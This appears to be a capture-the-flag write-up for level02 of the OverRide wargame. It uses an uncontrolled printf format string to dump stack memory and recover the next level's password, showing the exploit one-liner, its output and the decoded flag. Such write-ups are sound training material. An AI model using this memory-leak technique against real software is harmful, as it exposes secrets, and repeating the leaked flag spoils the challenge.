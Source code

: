 # level02

The program reads a username and a password from stdin, then it compares the password with the flag read from `/home/users/level03/.pass`. If they don't match, the binary will print username by calling `printf(username)` directly with our input username as format string.

## Step 1. Find real password in stack
```
level02@OverRide:~$ perl -le 'print "%p "x30' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
We can use the uncontrolled format string to show us the values of stack which contains the password data. `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d` is the password in little-endian format.

## Step 2. Convert little-endian password to original token
```
$ ./decrypt.pl 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

